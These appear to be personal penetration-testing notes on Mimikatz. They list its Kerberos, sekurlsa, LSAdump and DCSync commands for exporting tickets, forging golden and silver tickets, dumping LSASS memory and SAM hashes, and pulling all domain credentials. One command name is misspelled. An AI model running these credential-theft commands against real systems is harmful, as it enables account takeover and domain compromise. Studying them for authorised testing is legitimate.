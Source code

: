 - Used to harvest credentials from a windows machine.
- Has two additional components:
	- `Mimidrv`: driver that interacts with windows kernel
	- `Mimilib`: Bypass applocker, auth package/SSP etc.
- Runs with:
	- `Administrator` with `Privilege::debug` mode
	- `SYSTEM` privilege

# Kerberos
### ask
```bash
kerberos::ask
```
### list
- Lists or exports TGTs and STs from the current session
```powershell
kerberos::list # Lists the tickets
kerberos::list /export # Export the tickets to files
```
### purge
- purge all TGTs and STs from the current session.
```powershell
kerberos::purge
```
### tgt
- Prints information about the TGT from current session
```powershell
kerberos::tgt
```
### golden
[Golden Tickets](TechLexicon/Penetration%20Testing/Exploitation/Active%20Directory/Initial%20Foothold/Kerberos.md#Golden%20Tickets)
- Create golden tickets from krbtgt's NTLM hash or Kerberos keys.
### silver
- Create silver ticket from a service's NTLM hash or Kerberos keys.

# SekurLSA
Dumps keys, password hashes, pin codes from protected memory of lsass.exe proccess.
Rights required:
- SYSTEM
- Administrator with debug privilege (privilege::debug)
### backupkeys
- get backup master keys.
```powershell
sekurlsa::backupkey
```
### credman
- Lists credential manager
```powershell
sekurlsa::credman
```
### dpapi
[DPAPI](DPAPI.md)
- Lists cached master keys
```powershell
sekurlsa::dpapi
```
### ekeys
Lists kerberos encryption keys
```powershell
sekursla::ekeys
```
# LSAdump
### sam
- Dumps the sam database directory from memory or offline using the sam and system registry hives.
```powershell
# On target machine
lsadump::sam
# Using system and sam hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
### dcsync
- Perform dc-sync on the domain controller to dump ntds credentails, keys etc.
```powershell
# Dump credential of a specidic user
lsadump::dcsync /domain:mydomain.local /user:dr.dragon
# Dump all credentials
lsadump::dcsync /domain:mydomain.local /all
```